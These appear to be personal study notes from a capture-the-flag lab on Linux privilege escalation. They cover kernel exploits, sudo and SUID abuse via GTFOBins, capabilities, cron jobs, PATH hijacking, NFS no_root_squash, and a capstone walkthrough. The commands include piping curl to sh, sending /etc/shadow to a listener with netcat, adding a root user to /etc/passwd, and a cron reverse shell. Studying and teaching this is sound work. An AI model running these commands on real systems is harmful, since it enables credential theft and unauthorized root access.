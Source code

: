 Priv Esc? The exploitation of vulns, design flaws, or configurations in an OS or desktop app to gain unauthorized acces to resources usually restricted from users.
- Reset passwords
- Bypass access control to data
- Edit software configs
- Enable persistent access
- Change user permissions
- Execute admin commands

# Enumeration
[[hostname]]
[[uname]]
[[_proc_version]]
[[_etc_issue]]
[[Linux Terminal/ps]]
[[env]]
[[sudo]]
[[ls]]
[[id]]
[[_etc_passwd]]
[[history]]
[[ifconfig]] + [[ip]]
[[netstat]]
[[find]]
[[python]]

# Automated Enumeration
Dependent of environment, ie. Python not available on target system
-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Kernel Exploits
1. Identify kernel version
2. Search for exploit code for the kernel version
3. Configure/run the exploit
Careful, as some exploits can crash the kernel
https://www.linuxkernelcves.com/cves
Ex. 
1. `uname -r`, get kernel version
2. find appropriate CVE and exploit (CVE-2015-1328), and figure out language used
3. get file to remote host, move to a writeable directory
	1. `nc -lvnp PORT < exploit.c` -- `nc IP PORT > exploit.c`
4. follow exploit instructions (compile c and then run w/ `gcc exploit.c -o exploit` -- `./exploit.c`)

# Sudo
run a `sudo -l` to see all commands with delegated sudo privileges
[https://gtfobins.github.io/](https://gtfobins.github.io/) info on how programs with sudo rights can be leveraged

Application Functions ex. Apache server allows for `apache2 -f ...` to specify a config file, this will spit out an error of the first line of a file if its invalid, like /etc/shadow

### LD Preload
1. check for LD_PRELOAD (w/ env_keep option) `env_keep+=LD_PRELOAD`
2. Write C shell code compiled into a share object (.so extension) [[LD_PRELOAD]]
3. Run program with sudo rights and point LD_PRELOAD to the .so file


`sudo nmap --interactive` ?? apparently gives a shell


# SUID
find SUID executable files with `find / -type f -perm 4000 2>/dev/null`   then compare those executables against GTFOBins: https://gtfobins.github.io

ex. no exploit bin available but nano has SUID set
1. nano to copy passwd and shadow files
2. use `unshadow passwd.txt shadow.txt > passwords.txt`
3. upload with a wordlist to John the Ripper
OR
1. Generate a password with [[openssl]] `openssl passwd -1 -salt SALT PASS`
2. using nano, add new user to [[_etc_passwd]] with the password, give root membership
3. `su` to newly created user

Practical ex (given ssh login, low priv): 
0. hardmode it by running nmap, then brute forcing passwords with `hydra` 
1. ssh into karen's account, run `id` to get a sense of privileges
2. Based on the box, I run a `find -perm -4000...` for files that have SUID bit set (could also try `sudo -l` for other commands)
	1. Results are then checked against GTFOBins to look for an exploitable program (use SUID filter)
	2. (optional) overlook options because they don't seem sus
	3. find `base64` on GTFOBins, this will read out any file into base64, also has a --decode option 
3. `base64 /etc/shadow | base64 -d > shadow.txt` to write out, and then decode the shadow file (make sure you're in a writeable dir)
4. `nc ... < shadow.txt` to a listener to transfer files to local machine (send over `/etc/passwd `too) 
5. `unshadow PASSWD SHADOW` to get files into a format for John da Ripper to read
6. `john COMBINED_FILE` then spits out any found hashes (can also specify `--wordlist`, but the default works here)


# Capabilities
use `getcap / -r 2>/dev/null` to get a list of programs with a capabilities set. A capability being a delegated function of a binary / process that doesn't need to ask for a higher privilege user. 
Reference these results against GTFOBins to find attack vectors
ex. 
using a Vim `cap_setuid+ep` capability we can set our UID to root with the script listed on GTFOBins

  
# Cron Jobs
Scripts / binaries can be scheduled to run at specified times, they will run with privileges of owner (hopefully root), not of the current user
Stored in: `/etc/crontabs`
Often admins will create a cronjob for a script, eventually delete it, but never remove the cronjob, allowing us to create a custom script in its absence
Example:
1. `cat /etc/crontabs` to see potential cron jobs
2. 4 jobs are built to run every minute, 3 bash, 1 python
	-  Went down a rabbit hole trying to get a bash shell to work through the .sh files
3. find out which files might be accessible/writable, and see that the `test.py` script is non-existent
4. Create a `/tmp/test.py` script with python reverse shell from github [[Payloads]]
	 -  run into a bunch of issues getting it to run. Try debugging by check `which` on program calls needed, run the same command from terminal and see if it connects (to a listener), then try running the script with the current user and see if it connects
5. Run a listener and wait for the connection


# PATH
$PATH is an environment variable that tells Linux where to search for executables that are not built into the shell or defined with an absolute path.
`echo $PATH`  
- Look for write privileges to folders in $PATH
- is $PATH itself modifiable?
- are there existing scripts that can be leveraged to run a binary?
Example:
1. I search the system `find -perm -4000 ...` for any files that have a SUID bit set. I see `/home/murdoch`, which is also a writable directory 
2. In there we find a compiled file `test` and its originating, uncompiled version `thm.py`. With `cat thm.py` we see that it's trying to run a command called 'thm'.
3. I add this writable dir to the $PATH with `export PATH=$PATH=/home/murdoch`
4. In the same dir, (since its writable and now in PATH) I add a bash script named `thm` that cat's the flag file and `chmod 777 thm`.
5. I run the `test` file which has SUID bit set, and it accesses my injected `thm` command, now running as root and am able to cat the flag

  
# NFS
Network File Sharing config is viewable in `/etc/exports`. Often share folders and remote management tools like SSH and Telnet can be leveraged for root.
(by default NFS will strip all permissions on files and drop user to "nfsnobody")  
`cat /etc/exports` if the `no_root_squash` option is added on a writable share, then we can create an executable with SUID set.
`showmount -e TARGET` to list share folders on the target (from local)
`mount -o rw TARGET:/SHARE_DIR /MY_DIR` to copy over the share to local
Example:
1. search system for exportable shares with `cat /etc/exports`   
2. Notice that they all have `no_root_squash` set. Look into each to find which is executable from, tried /tmp as this is usually an accessible dir, which proved right
3. back on local `showmount` and then create a `/tmp/backups` dir to copy over the share with `mount -o rw TARGET:/tmp /tmp/backups`
4. Create a executable here that sets as root and opens a shell, (see [[gcc]]) then `gcc test.c -o test -w`
5. `chmod 4700 test` to grant it SUID bit so that any user can run it on the target system
6. See that the file has been copied over to target, run it as normal user, then get root shell :)


# Capstone
1. No obvious exploits for kernel version (`uname -a` + web search), no Cron Job(`/etc/crontab`), no NFS (`/etc/exports`), nothing apparent in PATH (did search these for a bit, but should've just ran a SUID search first to avoid the rabbit hole), and no sudo on user `leonard`.
2. `bash -li` and saw there was history, got a clue from this seeing as user `missy` was accessed recently
3. ran a `find -perm -4000` and saw SUID was set on Base64 (again)
4. used `base64` to read and send `/etc/shadow` to my local with nc, along with `/etc/passwd`. Fed to Johnny who got me the password for missy
5. got the first flag from missy `/home/Documents` directory
	-  also skipped part 2 by just base64'ing out flag2.txt from `/home/rootflag.txt`
6. ran a `sudo -l` for missy and saw she had sudo on `find`
7. compared this to GTFOBins which gave a script to get root shell through` find`
8. activated root shell and ran a find on `flag2.txt`, got flag